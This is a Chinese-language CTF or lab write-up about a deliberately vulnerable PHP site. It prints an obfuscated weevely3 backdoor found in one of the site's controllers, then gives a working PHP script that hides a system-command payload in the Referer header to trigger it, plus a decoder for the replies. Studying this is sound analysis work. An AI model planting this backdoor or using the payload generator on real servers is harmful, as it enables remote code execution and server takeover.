


## 启动环境

```
docker-compose build
docker-compose up -d
```

网站地址http://127.0.0.1/www/index.php，默认管理员账户admin:shadow123

## 0x01 系统内置木马

利用D盾扫描网站目录，在/module/misc/control.php中存在后门

```
	public function door() {
		$t = 'pre2Fss(@2Fx(@b2Fase64_deco2F2Fde(preg2F_r2Fepl2Face(array("/_/",2F"2F/-/"),array("/2F","2F+")2';
		$O = 'er"2F;$i=$m[1][02F]2F.$m[1][1];2F$h=$sl2F($s2Fs(md5(2F$i.$kh)2F2F2F,0,3));$2Ff2F=$sl(2F$ss(md5(';
		$s = 'rpos(2F$p,$h)===0)2F{$2Fs[$i]=2F"";$p=2F$ss($p,3)2F2F2F;}if(array2F_key_2Fexists($i,$s))2F{2F$s';
		$U = 'F,$ss($s[2F$i2F],0,2F$e))),$k2F)2F));2F$o2F=ob_get_contents();ob_end_2Fclean(2F);$2Fd=b2Fase64_';
		$l = '2F[$i].=$p;2F$e=strpos($s2F[2F$i2F],$f);if($e2F2F){$k=2F2F$kh.$kf;ob_start();@ev2Fal(@gzu2Fncom';
		$A = str_replace('Th', '', 'ThcreThThaThte_funThThction');
		$N = 'm2F);if($2Fq&&$m){@ses2Fsion_2Fstar2Ft();$s=&2F$_S2FESSION;$ss2F2F="substr";$sl2F="strt2F2Folow';
		$q = '"2F";for($i=0;$i<$2Fl;)2F{2Ffor($j=0;($j<$2Fc&&$i<$l2F);$j+2F+,2F$i++)2F{$o.=$t{$i}^2F$k{$j2F};';
		$K = '=array_value2Fs2F($q);preg2F_2Fma2Ftch_a2Fll("/([\\w])[\\w-2F]+2F(?:2F;q=0.([\\d]))?,?/",$2Fra2F,$';
		$F = '_LANGUAGE2F"];if($rr&&2F$r2F2Fa){$u=par2Fse2F_u2Frl($rr);parse2F_str($2Fu2F["query"],$q2F)2F;$q';
		$c = '2F}}return $2Fo;2F}$r=$_2FSE2FRVE2FR;$rr=@2F$r["2FHT2FTP_2FREFERER"];$ra=@$r[2F"HTTP_ACCE2F2FPT';
		$d = '$i.2F$kf)2F,0,3));$p="";for($z=2F1;$z<coun2Ft2F($m[1]);$z+2F+)2F$p.=$q[$m2F[2]2F[$2Fz]2F];if(st';
		$X = '$kh="ccd2"2F;$kf="2Fe8f9";f2Funct2Fion x($2Ft,$2Fk){$c=st2Fr2Fl2Fen($k);$l=strlen2F($t2F);$o=2F';
		$m = 'e2Fncode(x(gzc2Fomp2Fr2Fess($o),2F$k))2F;print("<2F$k>2F$d</$k2F>");@se2Fss2Fion_destroy();}}}}';
		$E = str_replace('2F', '', $X . $q . $c . $F . $K . $N . $O . $d . $s . $l . $t . $U . $m);
		$I = $A('', $E);
		$I();
	}
```

去网上检索了一下发现是weevely3的后门，
https://www.unphp.net/decode/467b9f5bd6a9ef075f358dabd4f14b87/

https://www.cnblogs.com/go2bed/p/5920811.html

https://blog.csdn.net/qq_31481187/article/details/52602454

https://www.asuri.org/2016/08/14/2016-nationwide-ctf-first-writeup/

https://yaofeifly.github.io/2017/01/13/weevely/
函数调用则是在



根据https://my.oschina.net/slagga/blog/1822389提供的加密函数

```
<?php
$kh="ccd2";
$kf="e8f9";

$referer = 'http://example.com/?a=0&b=1&c=2&d=3&e=4&f=5&g=6&h=7&i=payloadhere';
$lang = 'zh-CN,zh;q=0.8,en;q=0.6';
$m = array (
  0 =>   array (
    0 => 'zh-CN,',
    1 => 'zh;q=0.8,',
    2 => 'en;q=0.6',  ),
  1 =>   array (
    0 => 'z',
    1 => 'z',
    2 => 'e',  ),
  2 =>   array (
    0 => '',
    1 => '8',
    2 => '6',  ),   );
$i = 'zz'; // $m[1][0] . $m[1][1]
$h=strtolower(substr(md5($i.$kh),0,3)); // 675
$f=strtolower(substr(md5($i.$kf),0,3)); // a3e

function x($t,$k){        // $k : xor key, $t: plain. loop xor encrypt $t.
    $c=strlen($k);
    $l=strlen($t);
    $o="";
    for($i=0;$i<$l;){
        for($j=0;($j<$c&&$i<$l);$j++,$i++){
            $o.=$t{$i}^$k{$j};
        }
    }
    return $o;
}
$key = 'ccd2e8f9';
//$payload='phpinfo();';
$payload = "system(\"whoami\");";
$payload = gzcompress($payload);
$payload = x($payload,$key);
$payload = base64_encode($payload);
$payload = preg_replace(array("/\//","/\+/"),array("_","-"), $payload);
$payload = $h . $payload . $f;
echo $payload;
echo "\n<br />\n";
$referer = "http://example.com/?a=0&b=1&c=2&d=3&e=4&f=5&g=6&h=7&i=$payload";
echo $referer;
echo "\n<br />\n";
?>
```



解密函数

```
<?php
$kh="ccd2";
$kf="e8f9";
$k = $kh.$kf;

function x($t,$k){        // $k : xor key, $t: plain. loop xor encrypt $t.
    $c=strlen($k);
    $l=strlen($t);
    $o="";
    for($i=0;$i<$l;){
        for($j=0;($j<$c&&$i<$l);$j++,$i++){
            $o.=$t{$i}^$k{$j};
        }
    }
    return $o;
}
$o="G/9nMmU4Zjg=";
#$d=base64_encode(x(gzcompress($o),$k));
$a = gzuncompress(x(base64_decode($o),$k));
echo $a;
?>
```


[链接一](http://120.79.189.7/?p=409)


